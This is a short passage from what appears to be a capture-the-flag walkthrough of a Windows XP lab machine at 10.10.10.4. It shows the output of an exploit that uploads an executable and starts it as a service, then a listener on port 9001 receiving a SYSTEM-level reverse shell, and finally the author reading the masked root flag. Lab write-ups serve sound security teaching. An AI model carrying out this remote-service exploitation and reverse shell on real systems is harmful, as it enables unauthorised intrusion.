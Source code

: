 ```bash
Sending file BO4G1F.exe...                                                                             
Opening SVCManager on 10.10.10.4.....
Creating service SCWF.....      
Starting service SCWF.....
.....................................
```
Now, checking the listener, we can see that we've received our shell:
```bash
Listening on 0.0.0.0 9001
Connection received on 10.10.10.4 1030

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>echo %username%
echo %username%
LEGACY$
C:\WINDOWS\system32>cd "C:\Documents and Settings"
cd "C:\Documents and Settings"

C:\Documents and Settings>cd Administrator\Desktop
cd Administrator\Desktop

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
********************************
```

---
